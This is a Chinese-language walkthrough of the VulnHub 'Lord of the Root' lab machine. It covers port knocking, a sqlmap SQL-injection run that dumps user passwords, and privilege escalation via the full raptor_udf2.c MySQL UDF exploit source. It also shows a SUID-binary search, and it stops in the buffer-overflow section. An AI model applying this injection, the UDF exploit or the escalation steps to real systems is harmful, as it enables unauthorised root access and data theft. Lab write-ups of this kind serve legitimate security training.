


# Lord of the Root 1.0.1

下载地址：https://download.vulnhub.com/lordoftheroot/LordOfTheRoot\_1.0.1.ova

## 信息收集

发现靶场IP地址：`192.168.32.153`


扫描对外端口，发现只开启22端口。


SSH连接，发现这段提示：`Easy as 1,2,3`


使用knock 对1，2，3端口进行敲击

```
┌──(root💀kali)-[~/Desktop]
└─# knock 192.168.32.153 1 2 3 
```

可以看到1337端口已经打开。



浏览器访问1337端口


收集WEB系统的基本信息


访问robots.txt



查看页面源代码，找到一串疑似base64加密字符串。

```
THprM09ETTBOVEl4TUM5cGJtUmxlQzV3YUhBPSBDbG9zZXIh
```


这段字符串是经过**两层**base64加密，解密成功获取到一下URL

```
/978345210/index.php
```


访问URL


## 注入

使用SQLMAP进行SQL注入攻击

```
┌──(root💀kali)-[/tmp]
└─# sqlmap -u http://192.168.32.153:1337/978345210/index.php --forms --dbs --risk=3 --level=5 --dbms=mysql --batch
```

获取`users`表信息

```
Database: Webapp
Table: Users
[5 entries]
+----+------------------+----------+
| id | password         | username |
+----+------------------+----------+
| 1  | iwilltakethering | frodo    |
| 2  | MyPreciousR00t   | smeagol  |
| 3  | AndMySword       | aragorn  |
| 4  | AndMyBow         | legolas  |
| 5  | AndMyAxe         | gimli    |
+----+------------------+----------+
```

可以ssh到**smeagol**账号


## 提权

### 内核提权

这个靶场有`CVE-2015-8660`提权漏洞


### UDF提权

EXP

```
/*
 * $Id: raptor_udf2.c,v 1.1 2006/01/18 17:58:54 raptor Exp $
 *
 * raptor_udf2.c - dynamic library for do_system() MySQL UDF
 * Copyright (c) 2006 Marco Ivaldi <raptor@0xdeadbeef.info>
 *
 * This is an helper dynamic library for local privilege escalation through
 * MySQL run with root privileges (very bad idea!), slightly modified to work 
 * with newer versions of the open-source database. Tested on MySQL 4.1.14.
 *
 * See also: http://www.0xdeadbeef.info/exploits/raptor_udf.c
 *
 * Starting from MySQL 4.1.10a and MySQL 4.0.24, newer releases include fixes
 * for the security vulnerabilities in the handling of User Defined Functions
 * (UDFs) reported by Stefano Di Paola <stefano.dipaola@wisec.it>. For further
 * details, please refer to:
 *
 * http://dev.mysql.com/doc/refman/5.0/en/udf-security.html
 * http://www.wisec.it/vulns.php?page=4
 * http://www.wisec.it/vulns.php?page=5
 * http://www.wisec.it/vulns.php?page=6
 *
 * "UDFs should have at least one symbol defined in addition to the xxx symbol 
 * that corresponds to the main xxx() function. These auxiliary symbols 
 * correspond to the xxx_init(), xxx_deinit(), xxx_reset(), xxx_clear(), and 
 * xxx_add() functions". -- User Defined Functions Security Precautions 
 *
 * Usage:
 * $ id
 * uid=500(raptor) gid=500(raptor) groups=500(raptor)
 * $ gcc -g -c raptor_udf2.c
 * $ gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
 * $ mysql -u root -p
 * Enter password:
 * [...]
 * mysql> use mysql;
 * mysql> create table foo(line blob);
 * mysql> insert into foo values(load_file('/home/raptor/raptor_udf2.so'));
 * mysql> select * from foo into dumpfile '/usr/lib/raptor_udf2.so';
 * mysql> create function do_system returns integer soname 'raptor_udf2.so';
 * mysql> select * from mysql.func;
 * +-----------+-----+----------------+----------+
 * | name      | ret | dl             | type     |
 * +-----------+-----+----------------+----------+
 * | do_system |   2 | raptor_udf2.so | function |
 * +-----------+-----+----------------+----------+
 * mysql> select do_system('id > /tmp/out; chown raptor.raptor /tmp/out');
 * mysql> \! sh
 * sh-2.05b$ cat /tmp/out
 * uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm)
 * [...]
 *
 * E-DB Note: Keep an eye on https://github.com/mysqludf/lib_mysqludf_sys
 *
 */

#include <stdio.h>
#include <stdlib.h>

enum Item_result {STRING_RESULT, REAL_RESULT, INT_RESULT, ROW_RESULT};

typedef struct st_udf_args {
	unsigned int		arg_count;	// number of arguments
	enum Item_result	*arg_type;	// pointer to item_result
	char 			**args;		// pointer to arguments
	unsigned long		*lengths;	// length of string args
	char			*maybe_null;	// 1 for maybe_null args
} UDF_ARGS;

typedef struct st_udf_init {
	char			maybe_null;	// 1 if func can return NULL
	unsigned int		decimals;	// for real functions
	unsigned long 		max_length;	// for string functions
	char			*ptr;		// free ptr for func data
	char			const_item;	// 0 if result is constant
} UDF_INIT;

int do_system(UDF_INIT *initid, UDF_ARGS *args, char *is_null, char *error)
{
	if (args->arg_count != 1)
		return(0);

	system(args->args[0]);

	return(0);
}

char do_system_init(UDF_INIT *initid, UDF_ARGS *args, char *message)
{
	return(0);
}

// milw0rm.com [2006-02-20]
            
```

找到MySQL的账号密码

```
$db = new mysqli('localhost', 'root', 'darkshadow', 'Webapp');
```


按照 EXP脚本提示，提权成功


### 缓冲区溢出

学过缓冲区溢出提权，都会了解到SECRET文件夹目录，我们来找找

```
smeagol@LordOfTheRoot:/tmp$ find / -perm -g=s -o -perm -4000 ! -type l -maxdepth 3 -exec ls -ld {} \; 2>/dev/null
-rwsr-xr-x 1 root root 30112 May 15  2015 /bin/fusermount
-rwsr-xr-x 1 root root 35300 Jul 15  2015 /bin/su
-rwsr-xr-x 1 root root 88752 Aug  4  2015 /bin/mount
-rwsr-xr-x 1 root root 38932 May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 67704 Aug  4  2015 /bin/umount
-rwsr-xr-x 1 root root 43316 May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 7370 Sep 17  2015 /SECRET/door2/file
-rwsr-xr-x 1 root root 5150 Sep 22  2015 /SECRET/door1/file
-rwsr-xr-x 1 root root 7370 Sep 17  2015 /SECRET/door3/file
-rwsr-xr-x 1 root root 18168 Mar  4  2015 /usr/bin/pkexec
-rwsr-xr-x 1 root root 45420 Jul 15  2015 /usr/bin/passwd
-rwsr-xr-x 1 root root 35916 Jul 15  2015 /usr/bin/chsh
-rwsr-xr-x 1 root root 44620 Jul 15  2015 /usr/bin/chfn
-rwsr-xr-x 1 root root 66252 Jul 15  2015 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 30984 Jul 15  2015 /usr/bin/newgrp
-rwsr-xr-x 1 root lpadmin 13672 Jun  4  2015 /usr/bin/lppasswd
-rwsr-xr-x 1 root root 18136 May  7  2014 /usr/bin/traceroute6.iputils
-rwsr-xr-x 1 root root 72860 Oct 21  2013 /usr/bin/mtr
-rwsr-xr-x 1 root root 156708 Mar 12  2015 /usr/bin/sudo
-rwsr-xr-x 1 root root 9612 Feb 25  2015 /usr/lib/pt_chown
-rwsr-xr-- 1 root dip 323000 Apr 21  2015 /usr/sbin/pppd
```

